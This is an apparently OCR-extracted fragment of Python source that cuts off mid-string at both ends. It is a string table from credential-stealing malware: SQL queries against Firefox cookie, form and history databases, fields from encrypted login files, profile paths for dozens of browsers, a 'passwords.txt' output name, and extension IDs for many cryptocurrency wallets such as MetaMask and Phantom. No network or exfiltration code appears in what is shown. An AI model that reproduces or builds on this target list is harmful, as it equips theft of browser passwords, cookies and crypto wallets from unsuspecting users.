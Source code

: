 ```python
y, name, value FROM moz_cookies', 'logins.json', 'formSubmitURL', 'usernameField', 'encryptedUsername', 'encryptedPassword', 'guid', 'SELECT fieldname, value FROM moz_formhistory', 'SELECT url FROM moz_places', 'cookies.sqlite', 'formhistory.sqlite', 'places.sqlite', '\\Local State', '..\\profiles.ini', 'C:\\ProgramData\\', 'Chrome', '\\Google\\Chrome\\User Data', 'ChromeBeta', '\\Google\\Chrome Beta\\User Data', 'ChromeCanary', '\\Google\\Chrome SxS\\User Data', 'Chromium', '\\Chromium\\User Data', 'Edge_Chromium', '\\Microsoft\\Edge\\User Data', 'Kometa', '\\Kometa\\User Data', 'Amigo', '\\Amigo\\User Data', 'Torch', '\\Torch\\User Data', 'Orbitum', '\\Orbitum\\User Data', 'Comodo', '\\Comodo\\Dragon\\User Data', 'Nichrome', '\\Nichrome\\User Data', 'Maxthon5', '\\Maxthon5\\Users', 'Sputnik', '\\Sputnik\\User Data', 'EPB', '\\Epic Privacy Browser\\User Data', 'Vivaldi', '\\Vivaldi\\User Data', 'CocCoc', '\\CocCoc\\Browser\\User Data', 'Uran', '\\uCozMedia\\Uran\\User Data', 'QIP', '\\QIP Surf\\User Data', 'Cent', '\\CentBrowser\\User Data', 'Elements', '\\Elements Browser\\User Data', 'TorBro', '\\TorBro\\Profile', 'CryptoTab', '\\CryptoTab Browser\\User Data', 'Brave', '\\BraveSoftware\\Brave-Browser\\User Data', 'Opera', '\\Opera Software\\Opera Stable\\', 'OperaGX', '\\Opera Software\\Opera GX Stable\\', 'OperaNeon', '\\Opera Software\\Opera Neon\\User Data', 'Firefox', '\\Mozilla\\Firefox\\Profiles\\', 'SlimBrowser', '\\FlashPeak\\SlimBrowser\\Profiles\\', 'PaleMoon', '\\Moonchild Productions\\Pale Moon\\Profiles\\', 'Waterfox', '\\Waterfox\\Profiles\\', 'Cyberfox', '\\8pecxstudios\\Cyberfox\\Profiles\\', 'BlackHawk', '\\NETGATE Technologies\\BlackHawk\\Profiles\\', 'IceCat', '\\Mozilla\\icecat\\Profiles\\', 'KMeleon', '\\K-Meleon\\', 'Thunderbird', '\\Thunderbird\\Profiles\\', 'passwords.txt', 'ibnejdfjmmkpcnlpebklmnkoeoihofec', 'TronLink', 'nkbihfbeogaeaoehlefnkodbefgpgknn', 'MetaMask', 'fhbohimaelbohpjbbldcngcnapndodjp', 'Binance Chain Wallet', 'ffnbelfdoeiohenkjibnmadjiehjhajb', 'Yoroi', 'jbdaocneiiinmjbjlgalhcelgbejmnid', 'Nifty Wallet', 'afbcbjpbpfadlkmhmclhkeeodmamcflc', 'Math Wallet', 'hnfanknocfeofbddgcijnmhnfnkdnaad', 'Coinbase Wallet', 'hpglfhgfnhbgpjdenjgmdgoeiappafln', 'Guarda', 'blnieiiffboillknjnepogjhkgnoapac', 'EQUAL Wallet', 'cjelfplplebdjjenllpjcblmjkfcffne', 'Jaxx Liberty', 'fihkakfobkmkjojpchpfgcmhfjnmnfpi', 'BitApp Wallet', 'kncchdigobghenbbaddojjnnaogfppfj', 'iWallet', 'amkmjjmmflddogmhpjloimipbofnfjih', 'Wombat', 'nlbmnnijcnlegkjjpcfjclmcfggfefdm', 'MEW CX', 'nanjmdknhkinifnkgdcggcfnhdaammmj', 'GuildWallet', 'nkddgncdjgjfcddamfgcmfnlhccnimig', 'Saturn Wallet', 'fnjhmkhhmkbjkkabndcnnogagogbneec', 'Ronin Wallet', 'cphhlgmgameodnhkjdmkpanlelnlohao', 'NeoLine', 'nhnkbkgjikgcigadomkphalanndcapjk', 'Clover Wallet', 'kpfopkelmapcoipemfendmdcghnegimn', 'Liquality Wallet', 'aiifbnbfobpmeekipheeijimdpnlpgpp', 'Terra Station', 'dmkamcknogkgcdfhhbddcghachkejeap', 'Keplr', 'fhmfendgdocmcbmfikdcogofphimnkno', 'Sollet', 'cnmamaachppnkjgnildpdmkaakejnhae', 'Auro Wallet', 'jojhfeoedkpkglbfimdfabpdfjaoolaf', 'Polymesh Wallet', 'flpiciilemghbmfalicajoolhkkenfel', 'ICONex', 'nknhiehlklippafakaeklbeglecifhad', 'Nabox Wallet', 'hcflpincpppdclinealmandijcmnkbgn', 'KHC', 'ookjlbkiijinhpmnjffcofjonbfbgaoc', 'Temple', 'mnfifefkajgofkcjkemidiaecocnkjeh', 'TezBox', 'dkdedlpgdmmkkfjabffeganieamfklkm', 'Cyano Wallet', 'nlgbhdfgdhgbiamfdfmbikcdghidoadd', 'Byone', 'infeboajgfhgbjpjbeppbkgnabfdkdaf', 'OneKey', 'cihmoadaighcejopammfbmddcmdekcje', 'LeafWallet', 'lodccjjbdhfakaekdiahmedfbieldgik', 'DAppPlay', 'ijmpgkjfkbfhoebgogflfebnmejmfbml', 'BitClip', 'lkcjlnjfpbikmcmbachjpdbijejflpcm', 'Steem Keychain', 'onofpnbbkehpmmoabgpcpmigafmmnjhl', 'Nash Extension', 'bcopgchhojmggmffilplmbdicgaihlkp', 'Hycon Lite Client', 'klnaejjgbibmhlephnhpmaofohgkpgkd', 'ZilPay', 'aeachknmefphepccionboohckonoeemg', 'Coin98 Wallet', 'bfnaelmomeimhlpmgjnjophhpkkoljpa', 'Phantom', 'hifafgmccdpekplomjjkcfgodnhcellj', 'Crypto.com', 'dngmlblcodfobpdpecaadgfbcggfjfnm', 'Maiar DeFi Wallet', 'ppdadbejkmjnefldpcdjhnkpbjkikoip', 'Oasis', 'hpbgcgmiemanfelegbndmhieiigkackl', 'MonstaWallet', 'fcckkdbjnoikooededlapcalpionmalo', 'MOBOX', 'jccapkebeeiajkkdemacblkjhhhboiek', 'Crust Wallet', 'mgffkfbidihjpoaomajlbgchddlicgpn', 'Pali Wallet', 'nphplpgoakhhjchkkhmiggakijnkhfnd', 'TON Wallet', 'ldinpeekobnhjjdofggfgjlcehhmanlj', 'Hiro Wallet', 'pocmplpaccanhmnllbbkpgfliimjljgo', 'Slope Wallet', 'bhhhlbepdkbapadjdnnojkbgioiodbic', 'Solflare Wallet', 'pgiaagfkgcbnmiiolekcfmljdagdhlcm', 'Stargazer Wallet', 'cgeeodpfagjceefieflmdfphplkenlfk', 'EVER Wallet', 'gjkdbeaiifkpoencioahhcilildpjhgh', 'partisia-wallet', 'bgjogpoidejdemgoochpnkmdjpocgkha', 'Ecto Wallet', 'ifckdpamphokdglkkdomedpdegcjhjdp', 'ONTO Wallet', 'agechnindjilpccclelhlbjphbgnobpf', 'Fractal Wallet', 'algblmhagnobbnmakepomicmfljlbehg', 'ADS Wallet', 'imijjbmbnebfnbmonjeileijahaipglj', 'Moonlet Wallet', 'kpjdchaapjheajadlaakiiigcbhoppda', 'ZEBEDEE', 'dlcobpjiigpikoobohmabehhmhfoodbb', 'Argent X StarkNet Wallet', 'bofddndhbegljegmpmnlbhcejofmjgbn', 'X-Wallet', 'mapbhaebnddapnmifbbkgeedkeplgjmf', 'Biport Wallet', 'kfdniefadaanbjodldohaedphafoffoh', 'Typhon Wallet', 'jaooiolkmfcmloonphpiiogkfckgciom', 'Twetch Wallet', 'aijcbedoijmgnlmjeegjaglmepbmpkpi', 'Leap Wallet', 'fhfffofbcgbjjojdnpcfompojdjjhdim', 'Lamden Wallet', 'agkfnefiabmfpanochlcakggnkdfmmjd', 'Earth Wallet', 'lpfcbjknijpeeillifnkikgncikgfhdo', 'Nami', 'fecfflganphcinpahcklgahckeohalog', 'Coin Wallet', 'ilhaljfiglknggcoegeknjghdgampffk', 'Beam Web Wallet', 'dklmlehijiaepdijfnbbhncfpcoeeljf', 'FShares Wallet', 'fkhebcilafocjhnlcngogekljmllgdhd', 'WAGMIswap.io Wallet', 'laphpbhjhhgigmjoflgcchgodbbclahk', 'BLUE - Worlds Safest and Simplest Wallet', 'mkjjflkhdddfjhonakofipfojoepfndk', 'Unification Web Wallet', 'jnldfbidonfeldmalbflbmlebbipcnle', 'Infinity Wallet', 'ellkdbaphhldpeajbepobaecooaoafpg', 'Fetch.ai Network Wallet', 'iokeahhehimjnekafflcihljlcjcc
```